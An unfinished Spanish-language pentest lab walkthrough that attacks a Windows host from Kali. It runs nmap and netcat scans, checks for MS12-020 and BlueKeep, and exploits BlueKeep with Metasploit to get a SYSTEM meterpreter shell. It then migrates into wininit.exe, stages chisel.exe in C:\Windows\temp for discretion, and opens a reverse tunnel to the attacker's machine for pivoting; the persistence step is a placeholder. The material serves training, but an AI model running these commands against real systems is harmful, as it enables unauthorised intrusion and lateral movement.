


# Infraestructura objetivo

La infraestructura con la que estaremos trabajando será la siguiente:



Nosotros partiremos de una máquina Kali ubicada en la parte izquierda del esquema, e iremos ganando acceso a las máquinas a la par de ir creando una infraestructura que nos permita operar y tomar control de la red.

## Pruebas de penetración


### Escaneo con Nmap


Nmap se utiliza para escanear puertos y servicios abiertos en el sistema objetivo.


```bash
nmap -A -p- -T4 <target-ip>
```

Este comando realiza un escaneo completo en todos los puertos y utiliza opciones de temporización agresivas.

Detectamos un puerto en estado *wrapped*, por lo que vamos a comprobar manualmente que funciona

## Estado del puerto con Netcat

```bash
nc -zv <target-ip> <port>
```

Verificamos que efectivamente el puerto está abierto

<<capturita>>

## Metasploit - Comprobación MS12-020

El módulo de Metasploit `auxiliary/scanner/rdp/ms12_020_check` se puede utilizar para comprobar si el sistema objetivo es vulnerable al CVE-2012-0002.

```bash
msfconsole
use auxiliary/scanner/rdp/ms12_020_check
set RHOSTS <target-ip>
run
```

Podemos ver en el resultado del módulo que efectivamente la máquina es vulnerable:

<<capturita>>

De igual manera, verificamos para la vulnerabilidad **BlueKeep CVE-2019-0708**

```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <target-ip>
run
```

Y comprobamos que también es vulnerable, por lo que vamos a utilizar el módulo `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` para explotar la vulnerabilidad:

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS <target-ip>
set TARGET 1
run
```

Como resultado de la explotación, obtenemos una shell en el sistema y además con máximos privilegios

<<capturita que muestre NT AUTHORITY SYSTEM>>

Para obtener una mayor estabilidad en nuestra shell, ya que es posible que el proceso asociado se destruya debido a la naturaleza de la vulnerabilidad, vamos a migrar nuestra shell preferiblemente a un proceso de sistema. En este caso hemos conseguido migrar al proceso de inicialización de windows "wininit.exe"

```bash
meterpreter> ps
meterpreter> migrate <wininit-pid>
```

Con esto hecho, ahora vamos a dejar esta shell en segundo plano con el comando `background` porque vamos a realizar una técnica de persistencia en el objetivo. 

Para ello utilizaremos el módulo de metasploit `local/persistence_service` 

# AÑADIR EL COMO HACER PERSISTENCIA AQUI

## Subida de Chisel al objetivo

Aprovechando nuestra meterpreter, vamos a utilizar su comando `upload` para subir un archivo ejecutable de *chisel* una utilidad para crear conexiones bidireccionales que nos permitirá pivotar a la siguiente máquina en la red objetivo.

```bash
upload chisel.exe /temp
```

Lo subiremos al directorio `C:\Windows\temp` debido a que es un directorio más discreto para realizar este tipo de operaciones. Con eso subido, haremos lo siguiente:

En la máquina Kali (será nuestro server chisel):

```bash
chisel server -p <port> --reverse &
```

En la máquina objetivo (será nuestro server cliente chisel):

```bash
chisel client <kali-ip>:<port> R:<port-to-forward>:<target-ip>:<target-port>
```

Este comando inicia un servidor Chisel en la máquina Kali y configura un enrutamiento de puertos inverso desde el sistema objetivo a la máquina Kali.

Por favor, tenga en cuenta que los comandos y técnicas mencionados son para fines educativos y éticos solamente. Siempre obtenga la autorización adecuada antes de realizar cualquier actividad de pruebas de penetración.

Habiendo realizado esto, tendremos el primer túnel de conexión que nos permitirá usar las herramientas de nuestra máquina Kali en el **PC 1**



Esto nos permitirá usar la máquina **PC 1** como proxy a través del cuál enviar nuestras herramientas de Kali al **PC 2** a través de *proxychains*

